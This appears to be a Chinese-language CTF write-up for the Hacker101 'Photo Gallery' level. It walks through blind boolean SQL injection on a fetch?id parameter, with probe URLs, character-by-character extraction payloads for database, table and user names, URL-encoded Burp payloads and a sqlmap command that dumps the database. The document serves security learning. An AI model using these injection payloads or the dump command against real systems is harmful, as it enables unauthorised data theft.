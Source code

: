 ```yaml
---
title: hacker101-photo gallery
date: 2019-07-04 10:50:55
tags: 
category: walkthrough
---
```

无回显的 Boolean 型 SQL 注入
<!-- more -->
# 测试
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1 ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1' and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1" and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=1-- ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=2-- ==> 404
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=1 -- => 404
...
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=6 -- => 200

```

# 渗透
1. 找出当前表字段
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1%20%20order%20by%201%23 => 200

and order by 1 #

当前表只有一个字段
```
2. 找出数据库名
```
select ascii(substring((select database()),[0-9],1))=[ascii码];
```

3. 找出表名
```
select table_name from information_schema.tables where table_schema="blog" limit 0,1 ; # 第一张表
select table_name from information_schema.tables where table_schema="blog" limit 1,1 ; # 第二张表
```

4. 找出用户名和密码
```
select ascii(substring((select user()),[0-9],1))=[ascii码];
```

# walkthrough 
## 直接使用 burp 进行测试,其请求的 url 构造如下
```
%20and%20(select%20ascii(substring((select%20database()),1,1)))=11--
```
![photo1](/postimg/photo1-1.PNG)
![photo1](/postimg/photo1-2.PNG)
![photo1](/postimg/photo1-3.PNG)
![photo1](/postimg/photo1-4.PNG)
![photo1](/postimg/photo1-5.PNG)

第一步结果得出数据库名为 `level5`

## 得出当前表名，其 url 构造如下
```
%20and%20(select%20ascii(substring((select table_name from information_schema.tables where table_schema="level5" limit 0,1),$_$,1)))=$_$ --
```

得出第一张的表名：albums

## 使用 sqlmap 进行渗透
```
python sqlmap.py -u http://35.227.24.107/bb66c5a931/fetch\?id\=2 -p id -o --random-agent -D level5 --dump --threads 10
```
